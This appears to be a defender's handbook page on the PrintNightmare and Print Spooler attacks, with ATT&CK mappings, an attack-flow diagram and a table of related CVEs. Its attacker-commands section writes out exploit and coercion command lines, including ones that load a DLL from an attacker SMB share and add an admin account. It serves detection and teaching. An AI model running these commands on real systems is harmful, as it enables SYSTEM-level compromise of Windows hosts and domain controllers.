

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/printnightmare/index.html · generator: mkdocs

---
title: PrintNightmare & Print Spooler Abuse
tags:
  - technique
  - adversary
  - privilege-escalation
  - exploitation
---

# PrintNightmare & Print Spooler Abuse

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1068 (Exploitation for Privilege Escalation) · T1210 (Exploitation of Remote Services) · T1547.012 (Print Processors) · **CVE:** CVE-2021-1675, CVE-2021-34527 · **Tactic:** Privilege Escalation / Lateral Movement · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    The **Print Spooler** (`spoolsv.exe`) runs as **SYSTEM** on almost every Windows machine — including domain controllers — and lets clients install printer drivers. **PrintNightmare** (2021) abused the driver-install APIs (`RpcAddPrinterDriverEx` in MS-RPRN, and MS-PAR) so that any authenticated user could make the spooler load an **arbitrary DLL as SYSTEM**, locally or **remotely**. On a DC, that is domain compromise from a normal user account. The Spooler is also the engine of the **PrinterBug** coercion used for [NTLM relay](llmnr-ntlm-relay.md) and of print-processor **persistence**. Lesson for defenders: *disable services you don't need*.

## How the attack works

```mermaid
sequenceDiagram
    participant U as Any authenticated user
    participant S as spoolsv.exe (SYSTEM) on target
    participant SH as Attacker SMB share
    U->>S: RpcAddPrinterDriverEx(pDriverPath = \\attacker\share\evil.dll,<br/>flags incl. APD_INSTALL_WARNED_DRIVER)
    S->>SH: fetch DLL
    S->>S: copy to C:\Windows\System32\spool\drivers\x64\3\
    S->>S: LoadLibrary(evil.dll) as SYSTEM
    Note over S: Code execution as SYSTEM<br/>(remote on DCs/servers, local LPE everywhere)
```

Related Spooler issues:

| Issue | Year | Impact |
|---|---|---|
| **PrintNightmare** CVE-2021-1675 / 34527 | 2021 | LPE + **remote code execution** as SYSTEM |
| Point-and-Print follow-ups (CVE-2021-36958 etc.) | 2021 | LPE via printer driver install from attacker print server |
| **PrinterBug / SpoolSample** (MS-RPRN `RpcRemoteFindFirstPrinterChangeNotificationEx`) | 2018 → *by design* | Coerce any host (incl. DCs) to authenticate to the attacker — relay / unconstrained delegation abuse |
| **PrintSpoofer** | 2020 | `SeImpersonate` → SYSTEM — see [Potato attacks](token-impersonation-potato.md) |
| Stuxnet MS10-061 | 2010 | Spooler RCE via shared printer (XP-era) |

## Attacker tooling / commands

```text
# Check whether the spooler is exposed remotely
rpcdump.py @dc01 | egrep 'MS-RPRN|MS-PAR'

# PrintNightmare PoCs (recognition)
CVE-2021-1675.py corp/user:pass@dc01 '\\10.0.0.66\share\evil.dll'
Invoke-Nightmare -DriverName "Xerox" -NewUser "bad" -NewPassword "..."   # local LPE, adds admin
mimikatz  misc::printnightmare /server:dc01 /library:\\10.0.0.66\share\evil.dll

# Coercion
printerbug.py corp/user@dc01 10.0.0.66
SpoolSample.exe dc01 attackerhost
```
